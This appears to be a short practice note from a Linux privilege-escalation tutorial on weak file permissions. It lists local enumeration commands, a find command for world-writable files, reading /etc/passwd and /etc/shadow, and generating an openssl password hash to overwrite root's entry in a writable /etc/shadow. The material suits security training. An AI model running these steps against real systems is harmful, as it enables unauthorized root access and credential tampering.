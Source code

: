 ```yaml
---
description: https://github.com/rebootuser/LinEnum
---
```


# Weak Permissions

## Practice Demo

### Performing local enumeration

* <mark style="color:yellow;">whoami</mark>
* <mark style="color:yellow;">cat /etc/passwd</mark>
* <mark style="color:yellow;">groups</mark>
* <mark style="color:yellow;">cat /etc/group</mark>

### Identifying files with weak permissions

* <mark style="color:yellow;">find / -not -type l -perm -o+w</mark>

In this case the /etc/shadow file can be modified.

Because of this we can see the content of the <mark style="color:red;">shadow</mark> file.

### Generating a password to replace the encrypted root password

* <mark style="color:yellow;">openssl passwd -1 -salt abc password</mark>

It generates the encrypted password,now open the <mark style="color:red;">/etc/shadow</mark> file in VIM, and replace the <mark style="color:blue;">"\*"</mark> with the encrypted password.
